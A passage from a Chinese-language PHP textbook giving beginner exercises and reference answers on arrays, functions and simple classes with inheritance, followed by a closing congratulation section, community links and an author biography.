    echo $color . "<br>";
}
```

### 练习 17

编写一个 PHP 脚本，将一系列姓名存储在数组中，并按字母顺序显示它们。

### 参考答案

```php
<?php

$firstnames = array("Julie", "Paul", "Marie", "Luc", "Anne");

sort($firstnames);

foreach ($firstnames as $firstname) {
    echo $firstname . "<br>";
}
```

### 练习 18

编写一个 PHP 脚本，创建一个水果名称和价格的关联数组，并使用 foreach 循环显示数组的每个元素。

### 参考答案

```php
<?php
$fruits = array(
    "apple" => 2.5,
    "banana" => 1.8,
    "orange" => 3.2,
    "kiwi" => 4.0,
    "pineapple" => 6.5
);

foreach ($fruits as $fruit => $price) {
    echo "The price of a " . $fruit . " is " . $price . " euros.<br>";
}
```

### 练习 19

编写一个多维关联数组，其键为人名，值为包含该人名、城市和年龄的编号数组。然后使用此数组为每个人显示一个句子，给出该人的名、姓和年龄。

### 参考答案

```php
<?php
$tab = array(
    "Winder" => array("Pierre", "New York", 53),
    "Bikri" => array("Amine", "Chicago", 23),
    "DuPont" => array("Christpher", "Boston", 19)
);

foreach ($tab as $key => $value) {
    echo "The age of: " . $key . ". " . $value[0] . " is: " . $value[2] . "<br>";
}
```

您可以调用 **print_r($tab)** 函数来查看结果。

### 练习 20：函数和数组 (foreach)

编写一个 PHP 函数，接收一组数字数组作为输入，并返回所有这些数字的和。

### 参考答案

```php
<?php
function sum_tab($tab) {
    $sum = 0;
    foreach ($tab as $number) {
        $sum += $number;
    }

    return $sum;
}
```

使用示例：

```php
$my_array = array(1, 2, 3, 4, 5);
```


$result = sum_tab($my_array);
echo "The sum is: " . $result;

## 练习 21：函数与数组（foreach）

编写一个函数，接受一个数字数组作为参数，并返回数组中所有偶数的和。

### 参考答案

```php
<?php
function sum_even_numbers($tab) {
    $sum = 0;
    foreach ($tab as $number) {
        if ($number % 2 == 0) {
            $sum += $number;
        }
    }
    return $sum;
}
```

示例如下：

```php
$tab = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
$sum_even = sum_even_numbers($tab);
echo $sum_even;
```

## 练习 22：函数与数组（求平均值）

编写一个函数，接受一个数字数组作为参数，并返回数组中所有偶数的平均值。

### 参考答案

```php
<?php
function average_of_even_numbers($tab){
    $sum = 0;
    $nb_of_even_numbers = 0;
    foreach ($tab as $number) {
        if($number % 2 == 0){
            $sum += $number;
            $nb_of_even_numbers++;
        }
    }
    echo $nb_of_even_numbers;
    echo "<br>";
    $average = $sum/$nb_of_even_numbers;
    return $average;
}
$tab = [1,2,6,8,10,9,13,14,20];
echo average_of_even_numbers($tab);
```

## 练习 23：函数与数组（查找最大值）

编写一个函数，接受一个数字数组作为参数，并返回数组中所有数字的最大值。

### 参考答案

```php
<?php

function find_max_number($tab) {
    $max = $tab[0];
    foreach ($tab as $number) {
        if ($number > $max) {
            $max = $number;
        }
    }
    return $max;
}
```

```php
// Example of use
$tab = array(100, 20, 56, 876150, 12, 6, 1000);
echo "The maximum value is: " . find_max_number($tab);
```

## 面向对象 PHP

## 练习 24（无构造函数的类）

编写一个表示城市的类。它必须包含 name、department、region 和 number of inhabitants 属性，以及一个显示“城市 X 位于 Y 省的 Z 区域，共有 N 名居民”的方法。
创建城市对象，设置其属性并使用显示方法。

### 参考答案

```php
<?php
class City {
public $name;
public $department;
public $region;
public $inhabitants;

public function getInfos() {
    echo "The city " . $this->name . " is in department: "
        . $this->department . " in region " . $this->region
        . " and has " . $this->inhabitants . " inhabitants <br>";
}
}

// Creation of city objects
$city_1 = new City();

$city_1->name = "New York City";
$city_1->department = "New York";
$city_1->region = "Nord-Est";
$city_1->inhabitants = 8336817;

$city_1->getInfos();
```

## 练习 25

创建一个 Person 类，包含以下属性：姓、名、年龄。该类必须有一个 presentation() 方法，用于显示包含个人信息的字符串。

### 参考答案

```php
<?php
class Person {
public $lastname;
public $firstname;
public $age;

public function presentation() {
    echo "My name is ".$this->firstname."
and I'm ".$this->lastname." and ".$this->age." years old.";
}
}
```

```php
// Create two Person objects
$person1 = new Person();
$person1->lastname = "Smith";
$person1->firstname = "John";
$person1->age = 30;

$person2 = new Person();
$person2->lastname = "Dupont";
$person2->firstname = "Jane";
$person2->age = 25;

// Call presentation() method for each object
$person1->presentation(); // display "My name is John Doe and I'm 30  years old."
echo "<br>";
$person2->presentation(); // display "My name is Jane Smith and I'm 25 years old."
```

## 练习 26

创建一个 Person 类，包含以下属性：
- name：该人的姓名
- age：该人的年龄
Person 类必须具有以下方法：
- __construct ($name, $age)：用于初始化 name 和 age 属性的构造函数
- getName()：返回该人姓名的方法
- getAge()：返回该人年龄的方法
- setAge ($age)：修改该人年龄的方法

创建 Person 类的实例并显示其姓名和年龄。然后修改该人的年龄并显示新值。

### 参考答案

```php
<?php
class Person {
    private $name;
    private $age;

    public function __construct($name, $age) {
        $this->name = $name;
        $this->age = $age;
    }

    public function getName() {
        return $this->name;
    }

    public function getAge() {
        return $this->age;
    }

    public function setAge($age) {
        $this->age = $age;
    }
}

$person1 = new Person("John Doe", 30);
echo "Name : " . $person1->getName() . "<br>";

echo "Age : " . $person1->getAge() . "<br>";

$person1->setAge(35);

echo "New age : " . $person1->getAge() . "<br>";
```

## 练习 27

创建一个 Vehicle 类，包含以下属性：brand、model、year、price。这些属性应在构造函数中定义。

该类应为每个属性提供 getter 和 setter，以及一个 display() 方法，用于将车辆信息显示为字符串。

然后，使用初始信息创建一个类型为 Vehicle 的对象（vehicle1），并使用 display() 方法和 setter 来修改所创建 vehicle1 的信息。

### 参考答案

```php
<?php
class Vehicle {
    private $brand;
    private $model;
    private $year;
    private $price;

    public function __construct($brand, $model, $year, $price) {
        $this->brand = $brand;
        $this->model = $model;
        $this->year = $year;
        $this->price = $price;
    }

    public function getBrand() {
        return $this->brand;
    }

    public function setBrand($brand) {
        $this->brand = $brand;
    }

    public function getModel() {
        return $this->model;
    }

    public function setModel($model) {
        $this->model = $model;
    }

    public function getYear() {
        return $this->year;
    }

    public function setYear($year) {
        $this->year = $year;
    }

    public function getPrice() {
        return $this->price;
    }

    public function setPrice($price) {
        $this->price = $price;
    }

    public function display() {
        echo "Vehicle ".$this->brand.". ".$this->model." year ".$this->year." - Price: ".$this->price." euros";
    }
}
```

```php
// Create an object of type Vehicle
$vehicle1 = new Vehicle("Mercedes", "C220", 2015, 27000);
// Use methods to modify vehicle information
$vehicle1->setYear(2018);
$vehicle1->setPrice(15000);
// Display vehicle information
$vehicle1->display(); // affiche "Vehicle Peugeot 308 year 2018 - Price: 15000 euros"
```

## 练习 28（上一练习的续作）：

创建一个 Car 类，继承自 Vehicle 类，并具有名为 number_doors 的附加属性。Car 类还应具有一个考虑此附加属性的构造函数。

Car 类应为 number_doors 属性提供 getter 和 setter，以及一个 display() 方法，用于将汽车信息显示为字符串，同时调用父类的 display() 方法。

然后，使用初始信息创建一个类型为 Car 的对象，并使用 display() 方法和 setter 来修改汽车的信息。

### 参考答案

```php
<?php
require_once "Vehicle.php";
class Car extends Vehicle {
    private $number_doors;

    public function __construct($brand, $model, $year, $price, $number_doors) {
        parent::__construct($brand, $model, $year, $price);
        $this->number_doors = $number_doors;
    }

    public function getNumberDoors() {
        return $this->number_doors;
    }

    public function setNumberDoors($number_doors) {
        $this->number_doors = $number_doors;
    }

    public function display() {
        parent::display();
        echo " - ".$this->number_doors." doors";
    }
}

// Create an object of type Car
$car1 = new Car("Mercedes", "C220", 2024, 45000, 5);
$car1->display();
```

## 鼓励与祝贺

亲爱的读者，

恭喜您完成了这段从探索到精通的 PHP 和 MySQL 内部机制的激动人心的旅程。您已成功完成每一章，在学习过程中掌握了基本概念并磨练了技能。

### 一段学习之旅

您致力于使用 PHP 和 MySQL 学习 Web 开发，这一承诺令人印象深刻。理解 PHP 编程的复杂性、掌握 MySQL 查询以及探索 Web 开发的可能性，都是值得称赞的成就。我们希望本书能成为您学习旅程中的宝贵资源。

### 实际应用

不要忘记实际应用的重要性。利用您所学的知识去创造、探索和实验。动手项目是掌握技能的基石，所以请不要犹豫，将所学付诸实践。以下是我们的视频培训课程，供您通过实践来学习。

### 持续学习

Web 开发的世界是动态的，持续学习至关重要。我们建议您先继续学习高级面向对象 PHP，然后是面向对象 PHP 中的 MVC 架构，最后是 Laravel、symfony 等框架。


## 你是一名 Web 开发者！

恭喜，你已掌握成为网页设计师所需的技能。无论你选择构建个人网站、为开源项目做出贡献，还是追求专业职业生涯，你都已具备所需的基础。

## 保持联系

我们的共同旅程并未在此结束。让我们保持联系！加入在线社区，分享你的成就，提出问题并不断进步。Web 开发是一场集体冒险，而现在你已成为这个激动人心社区的一员。

我推荐你加入私有的 "Web 开发" 社区：https://www.skilldeve.com/community/developpement-web/join

## 做得非常好！

代表本书背后的整个团队，我们谨致以最热烈的祝贺。你对学习的承诺令人鼓舞，我们期待看到你未来开发的精彩作品。

## 本书有哪些奖励等着你？

- 如果你有任何疑问或遇到任何困难，请随时联系我们：contact@skilldeve.com
- 可进入一个专门针对 Web 开发的私有社区，你可以在其中交流并提出所有问题。

链接：https://www.skilldeve.com/community/developpement-web/join

扫描此二维码可直接前往


## 关于作者

Maximilien Lambert 是一位经验丰富的 Web 开发人员和数字技术领域培训师。凭借其公认的专业知识，他在世界知名机构主持了众多国际培训课程和研讨会。他卓越的教学方法使他在学生中赢得了卓越声誉，这要归功于他能够简化复杂概念，并使其为所有人所理解。

作为拥有20多年经验的大学讲师，Maximilien Lambert 分享他对学习和传授 IT 知识的热情。他在教育领域的长期经验使他能够激励世界各地几代学习者，传授的不仅是技术技能，还有对 Web 开发领域的全球愿景。

Maximilien Lambert 热衷于分享知识，擅长传授计算机技能，激励着世界各地几代学习者。除了教学活动外，他还为专业人士提供专业培训，帮助他们磨练技能，在各自领域保持领先地位。

他对卓越的奉献、对教学的热情以及他的技术专长，使 Maximilien Lambert 成为 Web 开发和数字培训领域的重要参考。
